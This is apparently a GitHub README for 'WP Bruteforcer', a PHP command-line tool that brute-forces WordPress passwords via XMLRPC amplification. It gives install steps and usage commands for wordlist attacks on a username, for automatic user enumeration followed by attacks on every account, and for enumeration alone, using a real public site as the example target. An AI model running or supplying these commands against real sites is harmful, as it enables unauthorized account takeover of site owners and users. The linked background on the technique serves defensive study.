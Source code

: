 # WP Bruteforcer

A simply PHP CLI Tool / Lib to bruteforce WordPress XMLRPC using amplification.

More info: [here](https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html)

# Requirements

* PHP 5.3+
* Composer

```
composer install
```

# Usage

```
php wpbruteforcer.php bruteforce http://wordpress.org/ --wordlist wordlist.txt --username admin
```

If none username is provided, the tool will enumerate the WordPress users and attack all of them.
```
php wpbruteforcer.php bruteforce http://wordpress.org/ --wordlist wordlist.txt
```

You can also just enumerate users with:
```
php wpbruteforcer.php enumerate http://wordpress.org/ --limit 20
```

To get a list of options use:
```
php wpbruteforcer.php -h
```
